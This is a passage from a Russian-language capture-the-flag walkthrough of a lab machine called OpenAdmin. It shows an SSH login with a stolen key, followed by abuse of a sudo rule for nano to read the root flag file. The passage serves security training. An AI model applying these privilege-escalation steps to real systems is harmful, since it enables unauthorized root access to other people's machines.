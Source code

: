 >Далее с помощью ключа и пароля войдем как joanna:

```html
root@kali:~# chmod 700 rsa
root@kali:~# ssh -i rsa joanna@10.10.10.171
Enter passphrase for key 'rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 2.0


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Apr  2 15:16:06 2020 from 10.10.14.218
joanna@openadmin:~$ ls
user.txt
joanna@openadmin:~$ cat user.txt
c9b2cf07d40807e62af626**********
```

>Остался только рут, посмотрим что мы можем от него запускать:

```html
joanna@openadmin://$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

>Редактор nano и файл priv, попробуем прочесть root.txt из файла priv:

```html
joanna@openadmin://$ sudo /bin/nano opt/priv
```

>Далее жмем ctrl+R чтобы прочесть другой файл.

```html
File to insert [from ./]: root/root.txt:
2f907ed450b361b2c2bf4e**********
```





